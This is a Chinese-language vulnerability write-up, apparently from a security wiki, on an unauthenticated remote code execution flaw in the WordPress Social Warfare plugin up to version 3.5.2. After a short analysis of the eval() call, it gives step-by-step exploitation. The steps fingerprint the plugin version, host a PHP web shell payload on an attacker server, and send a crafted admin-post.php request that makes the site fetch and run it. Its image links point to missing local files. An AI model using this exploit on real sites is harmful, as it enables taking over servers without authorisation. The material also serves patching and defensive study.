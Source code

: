 WordPress Plugin - Social Warfare\<=3.5.2 RCE
=============================================

一、漏洞简介
------------

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在\<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP\_Database\_Migration.php文件中有一处eval()函数，该函数将file\_get\_contents()读取的文件内容当做PHP代码执行导致RCE。

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId25.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

    http://0-sec.org/wp-content/plugins/social-warfare/readme.txt

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-SocialWarfare<=3.5.2RCE/media/rId27.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

    <pre>eval($_REQUEST['wpaa'])</pre>

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

    http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo();

image
